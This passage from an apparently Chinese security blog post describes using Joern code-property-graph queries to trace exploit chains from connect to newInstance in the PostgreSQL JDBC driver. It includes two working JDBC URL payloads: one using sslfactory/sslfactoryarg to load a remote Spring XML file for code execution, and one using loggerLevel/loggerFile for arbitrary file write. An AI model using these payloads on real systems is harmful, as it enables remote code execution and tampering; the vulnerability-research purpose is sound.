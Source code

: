 这个findUntil实现了**repeat...untail...times**的功能，而且也做了**一定的去重和优化**  
```
def sink = cpg.method.name("newInstance")def source = cpg.method.name("connect")findUntil(sink, source, 10).map(path => path.map(node => (node.fullName))).dedup.l
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroGicrwKRwZDvQNJmhCqW3jR5fxtXrXVsnVopkITCuZKOjOFdDTD5b1CSQ/640?wx_fmt=png "")  
  
虽然这里的函数调用链是正确的，但这里面有个很大的区别就是，**通过repeat获取的节点非常粗暴，并不一定是成数据流。**  
  
拿下面这段代码举例子，**理论上来说数据流分析应该从ctor开始一点一点往上，一直找到classname参数，然后再到方法instantiate**，但如果直接**用caller会直接获取到instantiate方法，也就是直接到父节点**。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroGcAW977MBAosVCgBo3Gw2uGIq8CSKuibCJ3ibNBzd8UeRr01OKu1vKZMg/640?wx_fmt=png "")  
  
但事实上**如果数据流追不到参数，实际上是数据流是不通的**，这种方式太粗暴，有效度也不会太高。连数据流分析的层面都到不了，更别谈过程间分析了。  
  
最关键的是，仔细研究后感觉**这部分在joern中坑相当大，说白了就是Joern的CPG结构中其实没有这种执行流概念，节点之间链接只有AST指向，边的特性也没有明确的显示。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroGRbOhmqOaicEt2EB79a1NmkiacBJqrpkkEjR150HKtdhFAmz57jb2paBA/640?wx_fmt=png "")  
  
用比较通俗的话讲，就是**CPG更强调调用关系**，就比如**调用NewInstance方法的位置属于方法Instantiate的子节点**，而**具体到代码块执行流程，则只是简单的AST指向关系**，**除了有向边以外，也没有显示这种指向关系的特殊性。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroG792mwKUjibXicMOOGeUkYgjmnH15w2YPib4SaJASXVicB20p2nt5RgZ4jg/640?wx_fmt=png "")  
  
这方面的问题需要再花时间研究一下，这篇文章先不深入去讲。后面专门写文章研究这部分。  
## 其他利用链  
  
我们仿照第一个利用链的语法，直接**模拟一下其他几个利用链的挖掘方式**  
- **任意代码执行 sslfactory/sslfactoryarg**  
  
```
# sslfactory&sslfactroyarg，任意代码执行jdbc:postgresql://127.0.0.1:5432/test/?sslfactory=org.spring.framework.context.support.ClassPathXmlApplicationContext&sslfactoryarg=http://test.joychou.org/1.xml
```  
  
对应的利用链其实和上一个是一样的，**入口都是connect，漏洞点都是newinstance**，这条利用链用上面的代码就可以查询到  
```
def sink = cpg.method.name("newInstance")def source = cpg.method.name("connect")findUntil(sink, source, 10).map(path => path.map(node => (node.fullName))).dedup.l
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroGJ0V9FQTOAicv46xic7zOicRYQNCuJjZCqic8mUztc6H7AwPB86gE11htFw/640?wx_fmt=png "")  
- **任意文件写入 loggerLevel/loggerFile**  
  
```
# loggerLevel&loggerFile，任意文件写jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=debug&loggerFile=test.txt&test
```  
  
这个漏洞的利用链相对特殊，其实是**利用了logger本身的功能**，通过**配置log写入的文件来实现任意文件写**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JkQkSjos6UT5UUABbbmYx1opdQRaibroGdlsDP1AhVSQJ1nwbNoLwXKXqkRfT7zicnkHm34OZ0rNCQyVnH9BsrTg/640?wx_fmt=png "")  
  
这里**类初始化的操作在joern被标记为<init>**，所以sink为  
```
cpg.method.where(_.name("<init>")).where(_.fullName(".*FileHandler.*"))
```  
  